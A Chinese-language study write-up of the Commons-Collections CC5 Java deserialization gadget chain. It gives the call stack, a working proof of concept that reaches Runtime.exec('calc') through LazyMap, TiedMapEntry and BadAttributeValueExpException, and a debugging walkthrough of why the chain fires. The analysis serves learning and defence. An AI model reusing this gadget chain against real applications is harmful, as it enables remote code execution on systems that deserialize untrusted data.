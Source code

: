 ## CommonsCollections_5

本机环境：

JDK版本：jdk1.7u_51

CC版本：Commons-Collections 3.2.1

CC5 依旧是 LazyMap 加 ChainedTransformer 的触发模式，只不过不再使用 AnnotationInvocationHandler 的动态代理来触发 LazyMap 的 get ，而是找到了其他的方式。

因为 jdk 在 1.8 之后对 AnnotationInvocationHandler 类进行了修复，所以在 jdk 1.8 版本就必须找出能替代 AnnotationInvocationHandler 的新的可以利用的类。

调用栈：

```
 ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```

## POC&复现

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

public class CommonCollections5 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException, IOException {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"calc"})});
        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
        TiedMapEntry tiedmap = new TiedMapEntry(map,123);
        BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,tiedmap);

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(poc);
        oos.close();

        // 本地测试触发
        // System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();

    }
}
```

![image-20220719140222744](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719140222744.png)

## 调试分析

### TiedMapEntry

`org.apache.commons.collections.keyvalue.TiedMapEntry` 是一个 `Map.Entry` 的实现类，从名称中可以看到，这是一个绑定了底层 map 的 Entry，用来使一个 map entry 对象拥有在底层修改 map 的功能。

TiedMapEntry 中有一个成员属性 Map，这就是 `Map.Entry` 的底层 map，TiedMapEntry 的 `getValue()` 方法会调用底层 map 的 `get()` 方法，我们可以用来触发 LazyMap 的 get。那谁会调用 `getValue()` 方法呢？我们发现 TiedMapEntry 的 equals/hashCode/toString 都可以触发。

![image-20220719112115405](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719112115405.png)

equals/hashCode 让我们想到了 URLDNS 的 HashMap，不过在 CC5 中我们用的是 `toString()` 方法。

接下来需要找到一个类在反序列化时会触发 TiedMapEntry 的 `toString()` 方法。

### BadAttributeValueExpException

于是找到了 `javax.management.BadAttributeValueExpException` 这个类，反序列化读取 val，当 `System.getSecurityManager() == null` 或 valObj 是除了 String 的其他基础类型时会调用 valObj 的 `toString()` 方法，完成上面 TiedMapEntry 的构造。

![image-20220719112431609](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719112431609.png)

简单总结一下就是：

反序列化 BadAttributeValueExpException 调用 TiedMapEntry 的 toString 方法，间接调用了 LazyMap 的 get 方法，触发了后续的 Transformer 恶意执行链。

这里有个需要注意的地方，为什么创建BadAttributeValueExpException实例时不直接将构造好的TiedMapEntry传进去而要通过反射来修改val的值？

查看一下其构造方法：

```java
public BadAttributeValueExpException (Object val) {
        this.val = val == null ? null : val.toString();
    }
```

如果我们直接将前面构造好的TiedMapEntry传进去，在这里就会触发toString，从而导致rce。此时val的值为UNIXProcess，这是不可以被反序列化的，所以我们需要在不触发rce的前提，将val设置为构造好的TiedMapEntry。

